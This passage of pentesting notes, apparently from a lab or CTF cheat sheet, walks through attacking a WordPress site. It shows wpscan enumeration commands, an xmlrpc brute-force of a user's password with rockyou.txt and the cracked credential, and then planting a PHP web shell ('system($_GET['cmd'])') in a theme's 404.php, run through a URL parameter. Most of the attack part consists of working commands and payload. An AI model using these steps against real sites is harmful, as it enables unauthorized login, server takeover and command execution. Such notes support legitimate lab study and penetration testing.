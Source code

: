 the above python code will give u password
tweak passwords from a file given and usernames also

---

## WPScan

**wpscan** enumerates wordpress themes , plugins , users , backups etc 

basic syntax
p - plugins
t - themes
u - users
```
wpscan --url http://192.168.0.102:8080/wordpress/ --enumerate p,t,u
```

we can also enumerate all plugins , all themes and for all users

```
wpscan --url http://192.168.0.102:8080/wordpress/ --enumerate ap,at,u
```

During the scan wpscan identifies vulnerabilities in the found themes/plugins 
it shows us the result if it have sqli or lfi or any other vulnerability 

we can also bruteforce users and passwords using wpscan with xmlrpc

```
wpscan --password-attack xmlrpc -U roger -P /rockyou.txt -t 25 --url http://138.68.141.81:31695
```

we get output if the password matches from rockyou.txt
```
[!] Valid Combinations Found:
 | Username: roger, Password: lizard
```

if bruteforcing for one user didnot work , try for another user even though that user is not admin 

---

## Theme/Plugin Injection

now we have access to wordpress dashboard
choose any theme 
and choose any php file like **404.php** or something which no one likely to use

now inject this php code 
```php
<?php system($_GET["cmd"]); ?>
```

click on update
if cms did give any errors like changes were reverted upload via sftp then edit another theme

now go to that php file in url 

```
http://192.168.0.102:8080/wordpress/wp-content/themes/twentysixteen/404.php?cmd=id
```
